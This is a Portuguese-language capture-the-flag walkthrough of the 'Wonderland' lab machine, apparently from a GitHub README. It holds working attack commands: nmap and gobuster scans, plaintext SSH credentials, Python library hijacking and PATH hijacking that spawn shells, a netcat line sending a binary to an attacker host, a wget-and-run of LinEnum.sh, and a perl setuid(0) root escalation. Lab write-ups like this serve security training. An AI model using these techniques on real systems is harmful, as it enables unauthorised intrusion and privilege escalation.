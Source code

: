 # Wonderland

nmap -n -T4 -sCV 10.10.204.123

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/4792115a-e5d0-4093-9825-262323aa153e)

Temos duas portas abertas 22(ssh) e 80(http), ja podemos identificar que precisamos descobrir uma credencial para ter acesso a porta ssh. Vamos enumerar o HTTP.

10.10.204.123

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/f4b6910e-a8e4-4882-9038-fb73ad0359da)

Logo após vou rodar um goBuster para descobrir os diretórios.

gobuster dir -u 10.10.204.123 -w /usr/share/wordlists/dirb/common.txt

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/e18bab1b-a12d-45e1-be09-de9fb7114414)

Descobrimos um repositório chamado /r, vamos acessar ele...

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/9a0a0970-3b08-4321-818c-a80b199df5f6)

O repositório só me mostrou uma mensagem dizendo para continuar enumerando, vou rodar outro gobuster mas adicionando /r no final.

gobuster dir -u 10.10.204.123/r -w /usr/share/wordlists/dirb/common.txt

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/d0425998-ca14-4855-b40f-95fee0208740)

Ele me trouxe um repositório /a, vou tentar acesso a ele...

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/1b7936b1-07a3-4e7b-945e-468ce0936029)

Ele me retornou uma página com uma mensagem para continuar enumerando, vou rodar outro gobuster mas adicionando /a no final.

gobuster dir -u 10.10.204.123/r/a -w /usr/share/wordlists/dirb/common.txt

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/613a1753-7c84-40cc-8ef0-8b125254240a)

Ele me trouxe um repositório /b, percebi que ele tinha criado vários repositórios que no final aparece o nome do Coelho(Rabbit).

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/6c1f0de5-ab98-43d7-99ce-454e6c77b15f)

Passei letra por letra até completar o nome e as páginas são iguais com exceção da última.

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/4158373b-e27d-4bbd-b597-dd464951a150)

Só que não tem nada de interessante nesta página só um texto e uma imagem. Então decidi passar página por página utilizando view-source: na url para verificar o código-fonte e identifiquei na última página as credenciais SSH.

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/e6a5d37c-abff-4b23-8bb4-1d7cb1f30de6)

alice:HowDothTheLittleCrocodileImproveHisShiningTail

ssh alice@10.10.204.123

Utilizei o ls -la para verificar o diretórios e encontrei dois arquivos importantes root.txt(sem acesso) e walrus_and_the_carpenter.py

Acessei com sudo -l para conseguir ler o arquivo e nele tinha um poema e uma função que separava 10 versos aleatórios. Elas estavam sendo armazenadas em uma biblioteca chamada random.

python3 -c 'import sys; print (sys.path)'

Descobri também que o arquivo percorre todos os diretórios até encontrar a biblioteca.

Então criei um arquivo aleatório chamado random.py e coloquei o seguinte código.

import os
os.system("/bin/bash")

E logo em seguida executei o script para verificar se minha teoria estava certa.

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

E conseguimos acesso a outro usuário.

Verifiquei o diretório do usuário Rabbit e contem um diretório teaParty com acesso root.

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/ac4d29e4-6b3a-4003-9290-46efc8eb1f15)

Acessei o diretório ./teaParty e ele me deu data e horário. Testei novamente e ele me mostrou a mesma data só que o horário diferente. Pesquisei em blogs e tive que executar alguns códigos para descobrir esta brecha de tarefas.

Na minha máquina executei um ouvinte:

nc -lvnp 4444

E na máquina com o SSH:

nc 10.10.133.10 4444 < teaParty

Esperei um tempo e encerrei o ouvinte e utilizei o ghidra para descompilar e verificar o que houve.

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/6099e05a-a472-4e94-8d6f-9c76a132ff1a)

Se tratava de um script com automação de data e hora.

Criei um arquivo date com o seguinte código para ele confundir e executar meu código.

#!/bin/bash

/bin/bash

Depois confirmei se meu arquivo estava funcionando com seguintes códigos:

export PATH=/tmp:$PATH
echo $PATH

Agora vou executar o ./teaParty novamente e consegui um escalação de privilégio para o usuário Hatter.

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/06a7aae5-14ff-4c14-a907-85d0c0a70d0a)

Descobrimos uma senha.

WhyIsARavenLikeAWritingDesk?

Após esse ponto eu não tinha mais noção do que fazer pois passei por todos personagens do filme e então dei uma pesquisada e o LinEnum.sh ajuda a enumerar mais a fundo. Em uma pesquisa que eu fiz me mostraram que eu deveria executar os seguintes comandos

wget http://10.10.204.123:6969/LinEnum.sh
chmod +x LinEnum. eh
./LinEnum. eh

Obtemos root utilizando o perl com os códigos deste repositório abaixo:

https://gtfobins.github.io/gtfobins/perl/#capabilities

$(which perl) -e ‘use POSIX qw(setuid); POSIX::setuid(0); exec “/bin/sh”;’

Finalmente conseguimos o acesso root e vamos pegar a última bandeira.
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/7ef41afd-57e7-4023-b88a-7f5fb183d866)


